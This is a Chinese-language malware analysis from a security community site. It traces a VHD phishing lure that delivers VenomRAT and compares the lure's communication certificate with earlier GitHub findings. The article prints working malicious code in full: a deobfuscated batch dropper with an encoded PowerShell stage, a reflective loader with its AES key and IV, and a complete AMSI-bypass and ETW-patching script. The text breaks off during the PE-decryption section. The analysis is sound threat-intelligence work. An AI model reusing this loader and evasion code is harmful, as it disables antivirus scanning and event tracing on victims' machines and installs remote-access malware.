# GitHub钓鱼到VHD诱饵：攻击者沿用两年前通信证书传播VenomRAT-先知社区

> **来源**: https://xz.aliyun.com/news/17442  
> **文章ID**: 17442

---

## 概述

近期，笔者在日常关注威胁情报的过程中，发现了一个正在活跃的VHD诱饵文件，由于此前VHD文件常用于APT网络钓鱼攻击活动中，因此，笔者即对其进行了关注分析：

* 在对VHD文件进行分析的过程中，笔者发现目前大多数杀毒引擎对VHD文件的查杀率并不高，可能这就是目前部分APT组织选择其作为网络钓鱼诱饵文件的原因吧；
* 在对VHD文件后续释放远控木马的分析流程中，笔者发现此远控木马使用的通信证书与笔者此前在Github上挖掘发现的远控木马的通信证书相同，虽无法完全证明两次攻击隶属于同一攻击者所为，但也无法完全摆脱其没有任何相关性的可能；

详细分析情况如下：

## 反病毒引擎检测率

尝试在VT上查看此VHD诱饵文件的反病毒引擎的检测率，梳理发现：

* VT上仅有2个反病毒引擎对其进行报毒；
* 微步上仅有1个反病毒引擎对其进行报毒；

相关截图如下：





## VHD文件剖析

梳理网络中关于VHD文件的介绍如下：

`VHD（Virtual Hard Disk，虚拟硬盘）是一种由微软开发的文件格式，用于表示虚拟硬盘驱动器。它最初是为Microsoft Virtual PC设计的，后来被广泛用于其他虚拟化平台，比如Hyper-V。`

`VHD文件本质上是一个封装了硬盘内容的单一文件，可以包含分区、文件系统以及数据，模拟物理硬盘的功能。`

直接双击运行，即可触发此VHD文件并在操作系统中挂载此虚拟磁盘映像，相关截图如下：





此外，我们还可尝试使用winhex查看VHD文件，即可静态查看此文件内容，相关截图如下：



## 被混淆的批处理文件

尝试查看VHD虚拟磁盘文件中的批处理文件内容，发现此批处理文件被混淆处理：**文件中嵌入了很多以随机字符串构造的%XXX%字符串。**

批处理文件截图如下：



进一步对其进行分析及尝试，发现：

* 批处理文件中的第一行内容，可以很清晰的看到@echo off字符串；
* 系统中若未定义%XXX%字符串对应的环境变量，则批处理文件中%XXX%变量的值为空；

相关测试脚本运行截图如下：



明白其混淆原理后，我们即可手动对其进行解混淆。

通过简单分析，梳理解混淆后的脚本功能如下：

* 复制自身至%userprofile%\dwm.bat路径；
* 携带了两段加密数据载荷：

* 以`:: 7iTHIG+Dhieuw`开头的字符串
* 以`:::ZgB1AG4AYwB0`开头的字符串

* 加载执行Base64编码的Powershell脚本；

解混淆后的脚本内容如下：

```
@echo off
if not DEFINED biqynwkwvtarxqsRzKvbiqynwkwvtarxqs set biqynwkwvtarxqsRzKvbiqynwkwvtarxqs=1 && start "" /min "%~dpnx0" %* && exit
  set "sourceFile=%~dp0%~nx0"
  copy "%sourceFile%" "%userprofile%\dwm.bat" >nul"
  setlocal enabledelayedexpansion

  :: 7iTHIG+Dhieuwb9UilKMUlO5UxxUZL6C5uLagG3JeV...省略后续数据...
  :::ZgB1AG4AYwB0AGkAbwBuACAASQBuAHYAbwBrAGUALQ...省略后续数据...
  C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe" -noprofile -windowstyle hidden -ep bypass  -Command "[Text.Encoding]::UTF8.GetString([Convert]::FromBase64String('JHVzZXJOYW1lID0gJGVudjpVU0VSTkFNRTskZmZubWQgPSAiQzpcVXNlcnNcJHVzZXJOYW1lXGR3bS5iYXQiO2lmIChUZXN0LVBhdGggJGZmbm1kKSB7ICAgIFdyaXRlLUhvc3QgIkJhdGNoIGZpbGUgZm91bmQ6ICRmZm5tZCIgLUZvcmVncm91bmRDb2xvciBDeWFuOyAgICAkZmlsZUxpbmVzID0gW1N5c3RlbS5JTy5GaWxlXTo6UmVhZEFsbExpbmVzKCRmZm5tZCwgW1N5c3RlbS5UZXh0LkVuY29kaW5nXTo6VVRGOCk7ICAgIGZvcmVhY2ggKCRsaW5lIGluICRmaWxlTGluZXMpIHsgICAgICAgIGlmICgkbGluZSAtbWF0Y2ggJ146OjogPyguKykkJykgeyAgICAgICAgICAgIFdyaXRlLUhvc3QgIkluamVjdGlvbiBjb2RlIGRldGVjdGVkIGluIHRoZSBiYXRjaCBmaWxlLiIgLUZvcmVncm91bmRDb2xvciBDeWFuOyAgICAgICAgICAgIHRyeSB7ICAgICAgICAgICAgICAgICRkZWNvZGVkQnl0ZXMgPSBbU3lzdGVtLkNvbnZlcnRdOjpGcm9tQmFzZTY0U3RyaW5nKCRtYXRjaGVzWzFdLlRyaW0oKSk7ICAgICAgICAgICAgICAgICRpbmplY3Rpb25Db2RlID0gW1N5c3RlbS5UZXh0LkVuY29kaW5nXTo6VW5pY29kZS5HZXRTdHJpbmcoJGRlY29kZWRCeXRlcyk7ICAgICAgICAgICAgICAgIFdyaXRlLUhvc3QgIkluamVjdGlvbiBjb2RlIGRlY29kZWQgc3VjY2Vzc2Z1bGx5LiIgLUZvcmVncm91bmRDb2xvciBHcmVlbjsgICAgICAgICAgICAgICAgV3JpdGUtSG9zdCAiRXhlY3V0aW5nIGluamVjdGlvbiBjb2RlLi4uIiAtRm9yZWdyb3VuZENvbG9yIFllbGxvdzsgICAgICAgICAgICAgICAgSW52b2tlLUV4cHJlc3Npb24gJGluamVjdGlvbkNvZGU7ICAgICAgICAgICAgICAgIGJyZWFrOyAgICAgICAgICAgIH0gY2F0Y2ggeyAgICAgICAgICAgICAgICBXcml0ZS1Ib3N0ICJFcnJvciBkdXJpbmcgZGVjb2Rpbmcgb3IgZXhlY3V0aW5nIGluamVjdGlvbiBjb2RlOiAkXyIgLUZvcmVncm91bmRDb2xvciBSZWQ7ICAgICAgICAgICAgfTsgICAgICAgIH07ICAgIH07fSBlbHNlIHsgICAgICBXcml0ZS1Ib3N0ICJTeXN0ZW0gRXJyb3I6IEJhdGNoIGZpbGUgbm90IGZvdW5kOiAkZmZubWQiIC1Gb3JlZ3JvdW5kQ29sb3IgUmVkOyAgICBleGl0O307ZnVuY3Rpb24gc2NleHkoJHBhcmFtX3Zhcil7CSRhZXNfdmFyPVtTeXN0ZW0uU2VjdXJpdHkuQ3J5cHRvZ3JhcGh5LkFlc106OkNyZWF0ZSgpOwkkYWVzX3Zhci5Nb2RlPVtTeXN0ZW0uU2VjdXJpdHkuQ3J5cHRvZ3JhcGh5LkNpcGhlck1vZGVdOjpDQkM7CSRhZXNfdmFyLlBhZGRpbmc9W1N5c3RlbS5TZWN1cml0eS5DcnlwdG9ncmFwaHkuUGFkZGluZ01vZGVdOjpQS0NTNzsJJGFlc192YXIuS2V5PVtTeXN0ZW0uQ29udmVydF06OkZyb21CYXNlNjRTdHJpbmcoJ295dFFUMUFvM1A5bGlVVWdBYnJpU2k4dWlLY0JNckFibVE3WTR2YUthVDQ9Jyk7CSRhZXNfdmFyLklWPVtTeXN0ZW0uQ29udmVydF06OkZyb21CYXNlNjRTdHJpbmcoJ1Q1ajF3dzJPM2U5ckhTVktJcWhVYUE9PScpOwkkZGVjcnlwdG9yX3Zhcj0kYWVzX3Zhci5DcmVhdGVEZWNyeXB0b3IoKTsJJHJldHVybl92YXI9JGRlY3J5cHRvcl92YXIuVHJhbnNmb3JtRmluYWxCbG9jaygkcGFyYW1fdmFyLCAwLCAkcGFyYW1fdmFyLkxlbmd0aCk7CSRkZWNyeXB0b3JfdmFyLkRpc3Bvc2UoKTsJJGFlc192YXIuRGlzcG9zZSgpOwkkcmV0dXJuX3Zhcjt9ZnVuY3Rpb24gbW5reWQoJHBhcmFtX3Zhcil7CSRmZ3hoeT1OZXctT2JqZWN0IFN5c3RlbS5JTy5NZW1vcnlTdHJlYW0oLCRwYXJhbV92YXIpOwkkaWJ3cWg9TmV3LU9iamVjdCBTeXN0ZW0uSU8uTWVtb3J5U3RyZWFtOwkkY3FvZmQ9TmV3LU9iamVjdCBTeXN0ZW0uSU8uQ29tcHJlc3Npb24uR1ppcFN0cmVhbSgkZmd4aHksIFtJTy5Db21wcmVzc2lvbi5Db21wcmVzc2lvbk1vZGVdOjpEZWNvbXByZXNzKTsJJGNxb2ZkLkNvcHlUbygkaWJ3cWgpOwkkY3FvZmQuRGlzcG9zZSgpOwkkZmd4aHkuRGlzcG9zZSgpOwkkaWJ3cWguRGlzcG9zZSgpOwkkaWJ3cWguVG9BcnJheSgpO31mdW5jdGlvbiB5YW55YSgkcGFyYW1fdmFyLCRwYXJhbTJfdmFyKXsJJHZjaGRuPVtTeXN0ZW0uUmVmbGVjdGlvbi5Bc3NlbWJseV06OignZGFvTCdbLTEuLi00XSAtam9pbiAnJykoW2J5dGVbXV0kcGFyYW1fdmFyKTsJJGJuam9jPSR2Y2hkbi5FbnRyeVBvaW50OwkkYm5qb2MuSW52b2tlKCRudWxsLCAkcGFyYW0yX3Zhcik7fSRob3N0LlVJLlJhd1VJLldpbmRvd1RpdGxlID0gJGZmbm1kOyR0YnNicz1bU3lzdGVtLklPLkZpbGVdOjooJ3R4ZVRsbEFkYWVSJ1stMS4uLTExXSAtam9pbiAnJykoJGZmbm1kKS5TcGxpdChbRW52aXJvbm1lbnRdOjpOZXdMaW5lKTtmb3JlYWNoICgkdHFsIGluICR0YnNicykgewlpZiAoJHRxbC5TdGFydHNXaXRoKCc6OiAnKSkJewkJJHN1Y3RyPSR0cWwuU3Vic3RyaW5nKDMpOwkJYnJlYWs7CX19JHZzcWZjPVtzdHJpbmdbXV0kc3VjdHIuU3BsaXQoJ1wnKTskbHdxZG89bW5reWQgKHNjZXh5IChbQ29udmVydF06OkZyb21CYXNlNjRTdHJpbmcoJHZzcWZjWzBdKSkpOyR6eHBtbT1tbmt5ZCAoc2NleHkgKFtDb252ZXJ0XTo6RnJvbUJhc2U2NFN0cmluZygkdnNxZmNbMV0pKSk7eWFueWEgJGx3cWRvICRudWxsO3lhbnlhICR6eHBtbSAoLFtzdHJpbmdbXV0gKCclKicpKTs=')) | Invoke-Expression
```

## Base64编码的powershell脚本

尝试对解混淆后的批处理脚本中的Powershell代码中的Base64字符串进行解码，即可成功获取后续Powershell脚本代码。

梳理解码后的Powershell脚本功能：

* 检查用户目录下的 dwm.bat文件是否存在；
* 执行 dwm.bat文件中以 `:::` 开头的Base64编码的PowerShell命令；
* 从 dwm.bat文件中提取以 `::` 开头的加密数据

* 加解密算法为：Base64解码、AES CBC解密、GZip解压缩
* AES key（Base64编码）：oytQT1Ao3P9liUUgAbriSi8uiKcBMrAbmQ7Y4vaKaT4=
* AES iv（Base64编码）：T5j1ww2O3e9rHSVKIqhUaA==

* 反射加载解密载荷文件；

解码后的Powershell脚本代码如下：

```
$userName = $env:USERNAME;
$ffnmd = "C:\Users\$userName\dwm.bat";
if (Test-Path $ffnmd) {
    Write-Host "Batch file found: $ffnmd" -ForegroundColor Cyan;
    $fileLines = [System.IO.File]::ReadAllLines($ffnmd, [System.Text.Encoding]::UTF8);
    foreach ($line in $fileLines) {        
        if ($line -match '^::: ?(.+)$') {            
            Write-Host "Injection code detected in the batch file." -ForegroundColor Cyan;
            try {                
                $decodedBytes = [System.Convert]::FromBase64String($matches[1].Trim());
                $injectionCode = [System.Text.Encoding]::Unicode.GetString($decodedBytes);
                Write-Host "Injection code decoded successfully." -ForegroundColor Green;
                Write-Host "Executing injection code..." -ForegroundColor Yellow;
                Invoke-Expression $injectionCode;
                break;
            } catch {                
                Write-Host "Error during decoding or executing injection code: $_" -ForegroundColor Red;
            };
        };
    };
} else {      
    Write-Host "System Error: Batch file not found: $ffnmd" -ForegroundColor Red;
    exit;
};
function scexy($param_var){	
    $aes_var=[System.Security.Cryptography.Aes]::Create();
    $aes_var.Mode=[System.Security.Cryptography.CipherMode]::CBC;
    $aes_var.Padding=[System.Security.Cryptography.PaddingMode]::PKCS7;
    $aes_var.Key=[System.Convert]::FromBase64String('oytQT1Ao3P9liUUgAbriSi8uiKcBMrAbmQ7Y4vaKaT4=');
    $aes_var.IV=[System.Convert]::FromBase64String('T5j1ww2O3e9rHSVKIqhUaA==');
    $decryptor_var=$aes_var.CreateDecryptor();
    $return_var=$decryptor_var.TransformFinalBlock($param_var, 0, $param_var.Length);
    $decryptor_var.Dispose();
    $aes_var.Dispose();
    $return_var;
}
function mnkyd($param_var){	
    $fgxhy=New-Object System.IO.MemoryStream(,$param_var);
    $ibwqh=New-Object System.IO.MemoryStream;
    $cqofd=New-Object System.IO.Compression.GZipStream($fgxhy, [IO.Compression.CompressionMode]::Decompress);
    $cqofd.CopyTo($ibwqh);
    $cqofd.Dispose();
    $fgxhy.Dispose();
    $ibwqh.Dispose();
    $ibwqh.ToArray();
}
function yanya($param_var,$param2_var){	
    $vchdn=[System.Reflection.Assembly]::('daoL'[-1..-4] -join '')([byte[]]$param_var);
    $bnjoc=$vchdn.EntryPoint;
    $bnjoc.Invoke($null, $param2_var);
}
$host.UI.RawUI.WindowTitle = $ffnmd;
$tbsbs=[System.IO.File]::('txeTllAdaeR'[-1..-11] -join '')($ffnmd).Split([Environment]::NewLine);
foreach ($tql in $tbsbs) {	
    if ($tql.StartsWith(':: '))	{		
        $suctr=$tql.Substring(3);
        break;
    }}
$vsqfc=[string[]]$suctr.Split('\');
$lwqdo=mnkyd (scexy ([Convert]::FromBase64String($vsqfc[0])));
$zxpmm=mnkyd (scexy ([Convert]::FromBase64String($vsqfc[1])));
yanya $lwqdo $null;
yanya $zxpmm (,[string[]] ('%*'));

```

## 禁用反病毒扫描及Windows事件跟踪

尝试对以 `:::` 开头的编码PowerShell脚本进行梳理分析，发现：

* PowerShell脚本中携带了多个16进制数据，对应字符串为：GetProcAddress、GetModuleHandle、AsmIInitializ、amsi.dll、EtwEventWrite
* 脚本核心功能一：通过绕过ASMI技术实现禁用反病毒扫描的功能；
* 脚本核心功能二：通过修改EtwEventWrite函数内存实现禁用Windows事件跟踪的功能；

以 `:::` 开头的解码后的PowerShell脚本内容如下：

```
function Invoke-SysRoutine {
    [CmdletBinding()]
    param (
        [Parameter(Mandatory=$false, Position=0)]
        [switch]$VerboseFlag,
        [Parameter(Mandatory=$false, Position=0)]
        [switch]$DisableSvc
    )

    if ($VerboseFlag) { $VerbosePreference = "Continue" }

    try {
        function Get-SysFuncAddr {
            param ([string]$ModID, [string]$FuncID)
            $modHandle = $Native_GetModuleHandle.Invoke($null, @($ModID))
            $tempPtr = New-Object IntPtr
            $handleRef = New-Object System.Runtime.InteropServices.HandleRef($tempPtr, $modHandle)
            $Native_GetAddress.Invoke($null, @([System.Runtime.InteropServices.HandleRef]$handleRef, $FuncID))
        }

        function Get-SysDelegate {
            param (
                [Parameter(Position=0, Mandatory=$true)]
                [IntPtr]$Addr,
                [Parameter(Position=1, Mandatory=$true)]
                [Type[]]$ArgTypes,
                [Parameter(Position=2)]
                [Type]$RetType = [Void]
            )
            $curDomain = [AppDomain]::("Curren" + "tDomain")
            $asmName = New-Object System.Reflection.AssemblyName('DynAssembly')
            $asmBuilder = $curDomain.DefineDynamicAssembly($asmName, [System.Reflection.Emit.AssemblyBuilderAccess]::Run)
            $modBuilder = $asmBuilder.DefineDynamicModule('DynModule', $false)
            $typeBuilder = $modBuilder.DefineType('DynType', 'Class, Public, Sealed, AnsiClass, AutoClass', [System.MulticastDelegate])
            $ctor = $typeBuilder.DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $ArgTypes)
            $ctor.SetImplementationFlags('Runtime, Managed')
            $method = $typeBuilder.DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $RetType, $ArgTypes)
            $method.SetImplementationFlags('Runtime, Managed')
            $delegateType = $typeBuilder.CreateType()
            [System.Runtime.InteropServices.Marshal]::("GetDelegate" + "ForFunctionPointer")($Addr, $delegateType)
        }

        Add-Type -AssemblyName System.Windows.Forms -ErrorAction Stop
        $SysMarshal = [System.Runtime.InteropServices.Marshal]
        $NativeMethods = [Windows.Forms.Form].Assembly.GetType('System.Windows.Forms.UnsafeNativeMethods')
        $bytesGetProc = [Byte[]](0x47,0x65,0x74,0x50,0x72,0x6F,0x63,0x41,0x64,0x64,0x72,0x65,0x73,0x73)
        $bytesGetMod  = [Byte[]](0x47,0x65,0x74,0x4D,0x6F,0x64,0x75,0x6C,0x65,0x48,0x61,0x6E,0x64,0x6C,0x65)
        $getProcName = [System.Text.Encoding]::ASCII.GetString($bytesGetProc)
        $getModName  = [System.Text.Encoding]::ASCII.GetString($bytesGetMod)
        $Native_GetModuleHandle = $NativeMethods.GetMethod($getModName)
        $Native_GetAddress = $NativeMethods.GetMethod($getProcName)
        $bytesInit = [Byte[]](0x41,0x6D,0x73,0x69,0x49,0x6E,0x69,0x74,0x69,0x61,0x6C,0x69,0x7A,0x65)
        $bytesLib  = [Byte[]](0x61,0x6d,0x73,0x69,0x2e,0x64,0x6c,0x6c)
        $libMod    = [System.Text.Encoding]::ASCII.GetString($bytesLib)
        $initFunc  = [System.Text.Encoding]::ASCII.GetString($bytesInit)
        $initAddr = Get-SysFuncAddr $libMod $initFunc
        $ptrSize = $SysMarshal::SizeOf([Type][IntPtr])
        if ($ptrSize -eq 8) {
            $initDelegate = Get-SysDelegate $initAddr @([string], [UInt64].MakeByRefType()) ([Int])
            [Int64]$sysContext = 0
        }
        else {
            $initDelegate = Get-SysDelegate $initAddr @([string], [IntPtr].MakeByRefType()) ([Int])
            $sysContext = 0
        }
        $protSuffix = 'Virt' + 'ualProtec'
        $protMethod = '{0}{1}' -f $protSuffix, 't'
        $kernelMod  = "ker{0}.dll" -f "nel32"
        $protAddr   = Get-SysFuncAddr $kernelMod $protMethod
        $protDelegate = Get-SysDelegate $protAddr @([IntPtr], [UInt32], [UInt32], [UInt32].MakeByRefType()) ([Bool])
        $PAGE_EXECUTE_WRITECOPY = 0x00000080
        $patchBytes = [byte[]](0xb8,0x0,0x00,0x00,0x00,0xC3)
        $origProt   = 0
        $index      = 0
        if ($initDelegate.Invoke("Scanner", [ref]$sysContext) -ne 0) {
            if ($sysContext -eq 0) { Throw "[!] No service provider found." }
            else { Throw "[!] Error invoking initialization function." }
        }
        if ($ptrSize -eq 8) {
            $coreData = $SysMarshal::ReadInt64([IntPtr]$sysContext, 16)
            $provPtr  = $SysMarshal::ReadInt64([IntPtr]$coreData, 64)
        }
        else {
            $coreData = $SysMarshal::ReadInt32($sysContext + 8)
            $provPtr  = $SysMarshal::ReadInt32($coreData + 36)
        }
        while ($provPtr -ne 0) {
            if ($ptrSize -eq 8) {
                $vtable   = $SysMarshal::ReadInt64([IntPtr]$provPtr)
                $scanAddr = $SysMarshal::ReadInt64([IntPtr]$vtable, 24)
            }
            else {
                $vtable   = $SysMarshal::ReadInt32($provPtr)
                $scanAddr = $SysMarshal::ReadInt32($vtable + 12)
            }
            if (-not $protDelegate.Invoke($scanAddr, [uint32]6, $PAGE_EXECUTE_WRITECOPY, [ref]$origProt)) {
                Throw "[!] Error changing memory protection at $scanAddr"
            }
            try {
                $SysMarshal::Copy($patchBytes, 0, [IntPtr]$scanAddr, 6)
            }
            catch {
                Throw "[!] Error writing patch at $scanAddr"
            }
            for ($i=0; $i -lt $patchBytes.Length; $i++) {
                $currentByte = $SysMarshal::ReadByte([IntPtr]::Add($scanAddr, $i))
                if ($currentByte -ne $patchBytes[$i]) { Throw "[!] Patch failed at $scanAddr" }
            }
            if (-not $protDelegate.Invoke($scanAddr, [uint32]6, $origProt, [ref]$origProt)) {
                Throw "[!] Failed to restore memory protection at $scanAddr"
            }
            $index++
            if ($ptrSize -eq 8) {
                $provPtr = $SysMarshal::ReadInt64([IntPtr]$coreData, 64 + ($index * $ptrSize))
            }
            else {
                $provPtr = $SysMarshal::ReadInt32($coreData + 36 + ($index * $ptrSize))
            }
        }
        if ($DisableSvc) {
            $bytesSvc = [Byte[]](0x45,0x74,0x77,0x45,0x76,0x65,0x6E,0x74,0x57,0x72,0x69,0x74,0x65)
            $svcName  = [System.Text.Encoding]::ASCII.GetString($bytesSvc)
            $svcAddr  = Get-SysFuncAddr ("nt{0}.dll" -f "dll") $svcName
            if (-not $protDelegate.Invoke($svcAddr, 1, $PAGE_EXECUTE_WRITECOPY, [ref]$origProt)) {
                Throw "[!] Error changing memory protection of $svcName"
            }
            try {
                if ($ptrSize -eq 8) {
                    $SysMarshal::WriteByte($svcAddr, 0xC3)
                }
                else {
                    $svcPatch = [byte[]](0xb8,0xff,0x55)
                    $SysMarshal::Copy($svcPatch, 0, [IntPtr]$svcAddr, 3)
                }
            }
            catch {
                Throw "[!] Error writing patch to $svcName"
            }
            if (-not $protDelegate.Invoke($svcAddr, 1, $origProt, [ref]$origProt)) {
                Throw "[!] Failed to restore memory protection of $svcName"
            }
            Write-Output "[*] Operation completed successfully."
        }
        else {
            Write-Output "[*] Routine executed."
        }
    }
    catch {
        Throw $_
    }
}

Invoke-SysRoutine -DisableSvc;
```

## 解密多段PE文件

在尝试对以 `::` 开头的编码载荷内容进行解密尝试的过程中，笔者发现攻击者在载荷中做了一些小手脚，用以反逆向分析：

`在以 :: 开头的编码载荷内容中，嵌入了两段加密PE文件，以“\”符号分割，若在逆向分析的过程中，未发现此逻辑，则只能提取第一段PE文件。`

相关截图如下：



尝试使用解密算法分别解密两段加密载荷，成功提取两个PE文件。

* 第一段PE文件解密流程如下：



* 第二段PE文件解密流程如下：

